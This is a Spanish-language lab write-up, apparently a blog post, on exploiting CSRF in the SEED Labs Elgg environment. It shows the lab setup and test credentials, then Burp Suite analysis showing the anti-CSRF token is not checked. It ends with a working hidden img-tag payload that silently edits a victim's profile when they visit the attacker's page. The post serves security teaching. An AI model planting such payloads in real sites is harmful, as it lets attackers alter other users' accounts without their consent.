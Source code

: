 ```yaml
---
title: CSRF (Cross-Site Request Forgery)
date: 2025-06-18 08:30:00 -0300
categories: [Web Security, Vulnerabilidades]
tags: [csrf, web, seguridad-web, tokens, autenticacion, sesiones]
description: >-
 Análisis técnico de la vulnerabilidad CSRF: mecanismos de explotación, condiciones necesarias y estrategias de mitigación.
image:
  path: /assets/imgs/csrf_1
  alt: Ejemplo de ataque CSRF
toc: true
comments: false
---
```


# ¿Que es CSRF?
<br>
CSRF (Cross-Site Request Forgery) es una vulnerabilidad que permite ejecutar acciones no autorizadas en nombre de un usuario autenticado. A diferencia de otros ataques, CSRF no requiere acceso directo a la sesión de la víctima: basta con inducirla a visitar un recurso malicioso mientras tiene una sesión activa en otra aplicación. Este tipo de ataque se basa en la confianza que una aplicación web deposita en el navegador del usuario y puede derivar en cambios de configuración, envío de formularios o modificación de datos críticos, todo sin conocimiento ni consentimiento del afectado.

# Laboratorio 

En este laboratorio se explorará la explotación de la vulnerabilidad CSRF mediante un entorno controlado. El objetivo es comprender cómo un atacante puede forzar acciones sobre una aplicación autenticada desde el navegador de una víctima. Se analizarán los requisitos previos, se construirá un escenario vulnerable y se ejecutará un ataque funcional que demuestre el impacto real de esta falla en la seguridad de aplicaciones web.


## Levantando el laboratorio 

descargar y descomprimir el laboratorio

```sh
wget https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip
unzip Labsetup.zip
rm !$
docker-compose up -d
```
Levantandor el contenedor

```sh
docker-compose up -d
```

Agregar las ip's de los contenedores al archivo etc/hosts

```zsh
10.9.0.5 www.seed-server-com
10.9.0.5 www.example32.com
19.9.0.105 www.attacker32.com
```

## Primera Fase

Credenciales: 

```bash
alice:seedalice
samy:seedsamy
```

1. Procedemos a logearnos como el usuario alice

2. Abrimos Burpsuite para intentar interceptar alguna peticion, para ver como se esta tramitando.

Podemos ver que se esta tramitando una peticion por POST a la direccion:<br>

```POST /action/profile/edit HTTP/1.1```

![](../assets/imgs/csrf_2.png)

podemos intentar cambiar el metodo de la peticion a GET y eliminar el campo ```__elgg_token``` para ver si realmente es necesario.


Deberia quedar algo asi:

![](../assets/imgs/csrf_3.png)

Enviamos y observamos que pasa.

![](../assets/imgs/csrf_4.png)

Con esto confirmamos que no se estan haciendo validaciones por detras y que el token no es un factor determinante en la peticion que se realice.



## Explotacion

En este laboratorio vamos a explotar esta vulnerabilidad insertando un payload malicioso en nuestro propio perfil público. El objetivo es que, cuando otro usuario autenticado visite nuestro perfil, su navegador envíe automáticamente una solicitud de modificación sobre su propia cuenta, alterando su información sin intervención directa. Esta técnica demuestra cómo acciones legítimas pueden ser subvertidas mediante el simple acto de visitar un contenido manipulado.

## Cargando el payload en el perfil

Para inyectar el payload podemos aprovechar que la misma pagina nos provee un cuerpo html a editar para inyectar una imagen maliciosa

El cuerpo de la solicitud interceptada con burpsuite es la siguiente:

```js
/action/profile/edit?name=pedro&description=%0d%0a&accesslevel%5bdescription%5d=2&briefdescription=sadsadasds&accesslevel%5bbriefdescription%5d=2&location=Mongolia&accesslevel%5blocation%5d=2&interests=Maco%c3%b1a&accesslevel%5binterests%5d=2&skills=todas&accesslevel%5bskills%5d=2&contactemail=test@test.com&accesslevel%5bcontactemail%5d=2&phone=03456&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56 
```

Este seria nuestro payload, el cual deberia cargar la victima

```html
<img src="/action/profile/edit?name=hacked&description=%0d%0a&accesslevel%5bdescription%5d=2&briefdescription=pwned&accesslevel%5bbriefdescription%5d=2&location=Narnia&accesslevel%5blocation%5d=2&interests=Maco%c3%b1a&accesslevel%5binterests%5d=2&skills=todas&accesslevel%5bskills%5d=2&contactemail=test@test.com&accesslevel%5bcontactemail%5d=2&phone=03456&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=59" width="1" height="1" style="display:none">

```

para realizar esto deberiamos averiguar el guid del usuario victima en este caso es el 59, ahora cuando este usuario visite nuestro perfil va a realizar una consulta sin saberlo lo que va a realizar cambios en su perfil sin su concentimiento.

![](../assets/imgs/csrf_5.png)


## Conclusión

La explotación de CSRF demuestra cómo una acción aparentemente inofensiva, como visitar un perfil, puede desencadenar modificaciones silenciosas en los datos del usuario si la aplicación no implementa mecanismos de defensa adecuados. Este laboratorio evidencia la importancia de los tokens antifalsificación y el control estricto del origen de las solicitudes. A través de este ejercicio, no solo se replica una vulnerabilidad clásica, sino que se destaca cómo su presencia aún puede persistir en aplicaciones mal configuradas o sin mantenimiento. La protección contra CSRF no es opcional: es un componente esencial de cualquier sistema autenticado.